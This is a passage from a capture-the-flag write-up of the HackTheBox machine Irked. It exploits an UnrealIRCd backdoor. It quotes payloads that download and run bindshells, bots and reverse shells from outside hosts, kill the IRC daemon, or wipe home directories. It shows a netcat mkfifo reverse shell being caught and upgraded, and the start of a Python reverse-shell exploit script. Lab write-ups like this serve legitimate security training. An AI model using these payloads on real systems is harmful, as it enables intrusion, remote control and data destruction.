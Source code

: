 But nothing happened. So I try another method. The script helps me with it:

```perl
## Payload options
my $payload1 = 'AB; cd /tmp; wget http://packetstormsecurity.org/groups/synnergy/bindshell-unix -O bindshell; chmod +x bindshell; ./bindshell &';
my $payload2 = 'AB; cd /tmp; wget http://efnetbs.webs.com/bot.txt -O bot; chmod +x bot; ./bot &';
my $payload3 = 'AB; cd /tmp; wget http://efnetbs.webs.com/r.txt -O rshell; chmod +x rshell; ./rshell &';
my $payload4 = 'AB; killall ircd';
my $payload5 = 'AB; cd ~; /bin/rm -fr ~/*;/bin/rm -fr *';
```

It seems that you can just execute commands on the system. So I start a netcat listener and try to start a reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/irked]
└─$ nc irked.htb 6697
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.28 4444>/tmp/f
:irked.htb NOTICE AUTH :* Looking up your hostname...
:irked.htb NOTICE AUTH :* Couldn't resolve your hostname; using your IP address instead
```

And I got the reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/irked]
└─$ nc -lvnp 4444   
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.117] 40618
/bin/sh: 0: can't access tty; job control turned off
$ whoami
ircd
$ python -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$ export TERM=xterm
export TERM=xterm
ircd@irked:~/Unreal3.2$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/irked]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

ircd@irked:~/Unreal3.2$
```

I can even access the home dir of djmardov, but cannot open the flag.

I also found this script to get the reverse shell:

```python
#!/usr/bin/env python3

import socket
import subprocess
import sys

if len(sys.argv) != 5:
    print(f"Usage: {sys.argv[0]} [target_ip] [target_port] [callback ip] [callback port]")
    sys.exit()

rhost, rport, lhost, lport = sys.argv[1:]

print(f"[*] Connecting to {rhost}:{rport}")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((rhost, int(rport)))
except:
```